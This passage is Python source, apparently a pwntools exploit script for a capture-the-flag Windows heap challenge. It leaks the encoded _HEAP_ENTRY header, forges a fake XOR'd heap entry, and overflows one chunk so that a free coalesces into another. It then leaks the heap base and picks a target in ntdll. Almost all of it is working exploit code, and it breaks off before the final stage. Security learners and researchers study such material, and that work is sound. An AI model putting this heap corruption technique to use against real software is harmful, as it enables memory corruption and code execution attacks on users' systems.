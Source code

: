 ```python
    sla("ID:", str(chunk_id))
    sla("Size:", str(size))
    if go_back:
        sla("Your choice: ", str(3))


def persistent_leak(cursor=0, disconn=True, leakLazy=False):
    global hi, sla
    context.log_level = "error"
    hi = remote(HOST, PORT)
    sla = hi.sendlineafter

    alloc(1, SIZE)
    edit(1, "A" * SIZE)
    try:
        heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
    except struct.error:
        log.info("_HEAP_ENTRY not leaked")
        return

    # log.info("_HEAP->Encoding = 0x%016x" % heap_encod)

    alloc(2, 0x268)
    alloc(3, 0x200)
    fake_entry = 0x10000027c80101c8 ^ heap_encod
    '''
    0x10000027c80101c8
       +0x008 Size             : 0x1c8
       +0x00a Flags            : 0x1 ''
       +0x00b SmallTagIndex    : 0xc8 ''
       +0x008 SubSegmentCode   : 0xc80101c8
       +0x00c PreviousSize     : 0x27
       +0x00e SegmentOffset    : 0 ''
       +0x00e LFHFlags         : 0 ''
       +0x00f UnusedBytes      : 0x10 ''
    '''

    # log.info("fake XOR'ed _HEAP_ENTRY = 0x%016x" % fake_entry)

    alloc(4, 0x1c80 -  # fake chunk size 
             0x20   -  # sizeof(_HEAP_ENTRY) * 2
             0x200     # orginal size of overwritten chunk
    ) 
    open_file()
    read_file(2, 0x268)
    edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)
    free(3)         # free coalesce mechanism also free'ing chunk 4
    alloc(3, 0x200) # set Flink and Blink at chunk 4

    heap_base = u64(show(4)[:8].ljust(8, p8(0))) - 0x150
    if heap_base == 0:
        log.info("Heap address not leaked")
        return

    if leakLazy:
        cursor = heap_base + 0x27b2 # can't leak null-byte
    elif cursor == 0:
        # default target is ntdll on _HEAP->LockVariable->Lock
        cursor = heap_base + 0x2c0
        
    # log.info("&_HEAP = 0x%016x" % heap_base)

    # make LFH to allocate new Userblock in chunk 4
```